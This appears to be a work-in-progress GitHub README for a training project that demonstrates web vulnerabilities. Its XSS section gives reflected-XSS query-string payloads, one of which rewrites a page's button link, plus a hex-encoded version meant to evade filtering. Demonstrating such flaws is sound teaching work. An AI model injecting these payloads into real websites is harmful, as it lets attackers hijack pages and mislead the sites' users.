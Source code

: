 # Demo Web Security

This project and this readme is WIP.

## Idea

 * Simple Webproject to show XSS, SQL Injection, LFI, RFI...
 * Database: Maria DB in Docker-Containter
 * Webserver: nginx in Docker-Conteiner
 * Docker-Compose for start all
 * Get client side package with yarn

## Keywords
 * Button on Webpage to create/reset the database
 * Bootstrap or Semantic UI
 * PHP or Python or JS as server language?
 * ...

## XSS

[Reference][1]

### Demo 1

```javascript
?name=guest<script>alert('XSS!')</script>
```

```javascript
?name=Fabian<script>window.onload = function() {var link=document.getElementsByClassName("btn");link[0].href="https://duckduckgo.com/";}</script>
```

Encode the string from ASCI to Hex (http://convertstring.com/de/EncodeDecode/HexEncode): 
```
?name=Fabian%3c%73%63%72%69%70%74%3e%77%69%6e%64%6f%77%2e%6f%6e%6c%6f%61%64%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%76%61%72%20%6c%69%6e%6b%3d%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%73%42%79%43%6c%61%73%73%4e%61%6d%65%28%22%62%74%6e%22%29%3b%6c%69%6e%6b%5b%30%5d%2e%68%72%65%66%3d%22%68%74%74%70%73%3a%2f%2f%64%75%63%6b%64%75%63%6b%67%6f%2e%63%6f%6d%2f%22%3b%7d%3c%2f%73%63%72%69%70%74%3e
```



[1]: http://www.thegeekstuff.com/2012/02/xss-attack-examples/
